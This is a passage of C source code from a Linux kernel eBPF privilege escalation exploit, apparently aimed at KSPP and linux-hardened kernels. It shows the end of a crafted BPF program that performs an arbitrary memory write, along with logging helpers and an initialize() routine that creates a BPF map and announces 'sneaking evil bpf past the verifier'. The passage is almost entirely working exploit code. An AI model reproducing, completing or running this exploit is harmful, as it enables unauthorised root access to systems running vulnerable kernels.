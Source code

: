 ```
		BPF_EXIT_INSN(),
		/* else                  */
		/* write */
		BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0), 
		BPF_EXIT_INSN(),

	};
	return bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, sizeof(prog), "GPL", 0);
}

void info(const char *fmt, ...) {
	va_list args;
	va_start(args, fmt);
	fprintf(stdout, "[.] ");
	vfprintf(stdout, fmt, args);
	va_end(args);
}

void msg(const char *fmt, ...) {
	va_list args;
	va_start(args, fmt);
	fprintf(stdout, "[*] ");
	vfprintf(stdout, fmt, args);
	va_end(args);
}

void redact(const char *fmt, ...) {
	va_list args;
	va_start(args, fmt);
	if(doredact) {
		fprintf(stdout, "[!] ( ( R E D A C T E D ) )\n");
		return;
	}
	fprintf(stdout, "[*] ");
	vfprintf(stdout, fmt, args);
	va_end(args);
}

void fail(const char *fmt, ...) {
	va_list args;
	va_start(args, fmt);
	fprintf(stdout, "[!] ");
	vfprintf(stdout, fmt, args);
	va_end(args);
	exit(1);
}

void 
initialize() {
	info("\n");
	info("t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)\n");
	info("\n");
	info("  ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **\n");
	info("\n");

	redact("creating bpf map\n");
	mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), sizeof(long long), 3, 0);
	if (mapfd < 0) {
		fail("failed to create bpf map: '%s'\n", strerror(errno));
	}

	redact("sneaking evil bpf past the verifier\n");
```